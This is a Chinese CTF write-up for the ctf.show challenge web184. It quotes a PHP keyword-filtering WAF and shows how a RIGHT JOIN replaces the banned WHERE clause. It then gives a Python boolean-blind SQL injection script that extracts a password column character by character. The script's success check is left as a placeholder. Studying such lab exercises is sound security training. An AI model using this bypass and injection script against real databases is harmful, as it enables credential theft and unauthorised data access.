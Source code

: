 不是为什么我flag的马甲是这样的



#### web184

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

因为这题where被ban了，我们可以利用right join进行代替

依旧是布尔盲注

![image-20250207231215915](../assets/image-20250207231215915.png)

POC

```
import requests

url = 'http://effed757-6639-46a9-9103-22fedb04bb41.challenge.ctf.show/select-waf.php'
charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}'
flag = ''

for i in range(1, 50):  # 假设 flag 最长 50 个字符
    for j in charset:
        payload = f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1) regexp char({ord(j)}))"
        data = {
            'tableName': payload
        }
        response = requests.post(url, data=data)
        if "some_success_condition" in response.text:
            flag += j
            print(flag)
            break
```
